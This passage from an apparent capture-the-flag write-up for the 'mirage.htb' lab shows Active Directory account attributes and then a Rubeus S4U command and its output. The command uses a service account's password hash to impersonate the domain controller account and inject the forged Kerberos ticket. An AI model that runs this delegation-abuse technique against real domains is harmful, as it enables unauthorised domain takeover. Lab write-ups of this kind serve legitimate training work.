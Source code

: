     sAMAccountName: Administrator
    sAMAccountType: 805306368
    uSNChanged: 159796
    uSNCreated: 8196
    userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD; NOT_DELEGATED
    userPrincipalName: Administrator@mirage.htb
    whenChanged: 2025-07-23 06:44:13+00:00
    whenCreated: 2025-05-01 07:41:37+00:00


However, we can simply generate the credentials we need to authenticate as the domain controller.

```sh
> ./Rubeus.exe s4u /user:mirage-service$ /rc4:305806d84<snip>c7866 /impersonateuser:dc01$ /msdsspn:"HOST/dc01.mirage.htb" /ptt /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3

[*] Action: S4U

[*] Using rc4_hmac hash: 305806d84<snip>c7866
[*] Building AS-REQ (w/ preauth) for: 'mirage.htb\mirage-service$'
[*] Using domain controller: fe80::4f5c:3e49:2490:9d8d%7:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFnDCCBZigAwIBBaEDAgEW<snip>>GwptaXJhZ2UuaHRi


[*] Action: S4U

[*] Building S4U2self request for: 'mirage-service$@MIRAGE.HTB'
[*] Using domain controller: dc01.mirage.htb (fe80::4f5c:3e49:2490:9d8d%7)
[*] Sending S4U2self request to fe80::4f5c:3e49:2490:9d8d%7:88
[+] S4U2self success!
[*] Got a TGS for 'dc01$' to 'mirage-service$@MIRAGE.HTB'
[*] base64(ticket.kirbi):

      doIFkjCCBY6gAwIBBaEDAgEWoo<snip>>9taXJhZ2Utc2VydmljZSQ=

[*] Impersonating user 'dc01$' to target SPN 'HOST/dc01.mirage.htb'
[*] Building S4U2proxy request for service: 'HOST/dc01.mirage.htb'
[*] Using domain controller: dc01.mirage.htb (fe80::4f5c:3e49:2490:9d8d%7)
[*] Sending S4U2proxy request to domain controller fe80::4f5c:3e49:2490:9d8d%7:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'HOST/dc01.mirage.htb':

      doIGNjCCBjKgAwIBBaEDAgEWooIFUTCCBU1hgg<snip>>lqoDBsKTUlSQUdFLkhUQqkiMCCgAwIBAqEZMBcbBEhPU1QbD2RjMDEubWlyYWdlLmh0Yg==
[+] Ticket successfully imported!

```
